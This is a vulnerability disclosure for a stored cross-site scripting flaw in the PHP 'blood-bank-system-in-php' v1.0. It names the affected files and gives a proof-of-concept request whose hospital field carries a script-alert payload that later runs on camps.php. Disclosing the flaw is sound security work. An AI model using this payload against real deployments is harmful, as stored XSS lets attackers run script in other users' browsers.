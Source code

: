 # blood-bank-system-in-php has Cross Site Scripting via camps.php $hospital parameter 

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

admin/campsdetails.php and /camps.php $hospital parameter.

## VERSION(S)

-  v1.0

## Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

# PROBLEM TYPE

## Vulnerability Type

Cross Site Scripting

## **Description of the vulnerability**

/admin/campsdetails.php insert the $hospital parameter into camps tables.

![image-20241006020549104](https://github.com/user-attachments/assets/237eff19-ca1c-4e16-bba7-380f91b4f10d)

camps.php echo $hospital value from camps table.

![image-20241006020623440](https://github.com/user-attachments/assets/0b9f81a3-7e3f-46c4-b05c-e9443502f87f)

## **Vulnerability recurrence**

### **POC**

```
http://bloodbankmgmtsystem/admin/campsdetails.php
contact=2&hospital=<script>alert("hospitalXss");</script>
```

![image-20241006014220718](https://github.com/user-attachments/assets/e3935877-cff9-435f-bd98-bfa20f830108)

### Result

asset /camps.php alert 'hospitalXss'.

```
http://bloodbankmgmtsystem/camps.php
```

![image-20241006014121493](https://github.com/user-attachments/assets/9b75188a-af7d-464a-a155-9badd848ce5b)